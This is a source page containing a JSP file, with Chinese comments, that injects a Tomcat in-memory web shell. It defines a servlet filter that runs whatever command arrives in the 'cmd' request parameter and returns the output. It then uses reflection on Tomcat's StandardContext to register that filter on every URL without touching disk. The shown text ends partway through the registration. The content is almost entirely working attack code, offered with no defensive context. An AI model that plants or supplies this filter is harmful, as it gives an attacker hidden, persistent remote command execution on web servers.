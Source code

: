 ```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    class FilterTest implements Filter {

        public void init(FilterConfig filterConfig) throws ServletException {

        }

        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            String cmd = servletRequest.getParameter("cmd");
            try{
                if(cmd != null){
                    InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                    ByteArrayOutputStream bao = new ByteArrayOutputStream();
                    byte[] bytes = new byte[1024];
                    int a = -1;
                    while((a = inputStream.read(bytes))!=-1){
                        bao.write(bytes, 0, a);
                    }
                    servletResponse.getWriter().write(new String(bao.toByteArray()));
                }
            }catch (Exception e){
                e.printStackTrace();
            }
            // 使下一个 Filter 能够继续执行
            filterChain.doFilter(servletRequest,servletResponse);
        }

        public void destroy() {

        }
    }
%>

<%
    // 获取StandardContext对象
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request req = (Request) field.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();

    String filterName = "FilterTest";
    // 利用FilterDef对filter进行封装
    FilterTest filterTest = new FilterTest();
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filterTest);
    filterDef.setFilterName(filterName);
    filterDef.setFilterClass(filterTest.getClass().getName());
    standardContext.addFilterDef(filterDef);

    // 创建FilterMap，将filterName和urlPatterns进行绑定
    FilterMap filterMap = new FilterMap();
    filterMap.setFilterName(filterName);
    filterMap.addURLPattern("/*");
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    standardContext.addFilterMapBefore(filterMap);

    // 封装filterConfig和filterDef到filterConfigs
    Field field_filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
    field_filterConfigs.setAccessible(true);
    Map filterConfigs = (Map) field_filterConfigs.get(standardContext);

```